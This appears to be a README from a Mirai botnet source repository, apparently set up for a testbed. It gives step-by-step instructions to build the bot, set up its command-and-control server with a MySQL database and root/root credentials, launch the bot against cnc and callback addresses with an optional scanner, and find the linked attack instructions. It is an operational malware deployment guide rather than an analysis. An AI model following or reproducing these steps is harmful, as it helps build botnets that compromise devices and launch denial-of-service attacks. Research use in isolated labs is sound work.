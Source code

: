 # Setup Instructions (for x86/x64 bot)

### For NCL
We'll need to update the `sources.list` to get `apt-get` working (only applies to cnc). 

1. go to `/etc/apt`
2. rename `sources.list` to `sources.list.bak`
3. create a new `sources.list` and add the following lines to it
  ```
  ###### Ubuntu Main Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 

  ###### Ubuntu Update Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  ```
4. now `apt-get` should work

### Installation Instructions for Running cnc (assumes you have already built it)
1. install mysql: `sudo apt-get install mysql-server mysql-client`
  * make sure you set the root password as `root` during the installation
2. run [scripts/db.sql](scripts/db.sql) in the mysql shell
  ```
  <in the scripts folder>
  $ mysql -u root -p
  <enter password>
  
  source db.sql;
  \q
  ```
3. to make sure you are not kicked out of the session, add these two lines under the `[mysqld]` section in `/etc/mysql/my.cnf` (you will probably need root access)
  ```
  [mysqld]
  
  ...
  
  wait_timeout = 86400
  interactive_timeout = 86400
  ```
4. restart mysql: `sudo service mysql restart`
5. run the cnc: `sudo ./cnc`
6. in order to access the cnc, use `telnet localhost` (assumes you are telnet-ing on the cnc machine)
7. use `username: root` and `password: root` to login (as defined in [scripts/db.sql](scripts/db.sql))
8. refer to [attack-instructions.md](attack-instructions.md) for how to launch an attack

### Instructions for Running bot (assumes you have already built it)
1. run the bot: `sudo ./debug/mirai.dbg <cnc ip> <local ip> <callback ip> <enable scanner 0/1>` (assumes you have built the debug version)
  * e.g. `sudo ./debug/mirai.dbg 10.0.0.1 10.0.0.2 10.0.0.1 0`
  * you can use [mirai/demo-bot.sh](mirai/demo-bot.sh) that automatically finds the ip address of eth0 (be sure to change the hardcoded cnc and callback ip addresses)

### Installation Instructions for Building
1. install golang
  ```
  $ sudo add-apt-repository ppa:ubuntu-lxc/lxd-stable
  $ sudo apt-get update
  $ sudo apt-get install golang
  ```
2. run [scripts/cross-compile.sh](scripts/cross-compile.sh) (needs root)
3. add export paths in `~/.bashrc` (you may need to restart bash after this step)
  ```
  add the following lines:
  export PATH=$PATH:/etc/xcompile/i586/bin
  export PATH=$PATH:/etc/xcompile/armv6l/bin
  export PATH=$PATH:/usr/lib/go/bin
  export GOPATH=$HOME/Documents/go
  ```
4. install git: `sudo apt-get install git`
5. install go packages
  * `go get github.com/go-sql-driver/mysql`
  * `go get github.com/mattn/go-shellwords`
6. build using [mirai/build.sh](mirai/build.sh)
  * e.g. `mirai/build.sh debug telnet`
  * only the debug, telnet version has been tested
  * output files will be in the `debug` folder, with `cnc` and `mirai.dbg` (the bot)
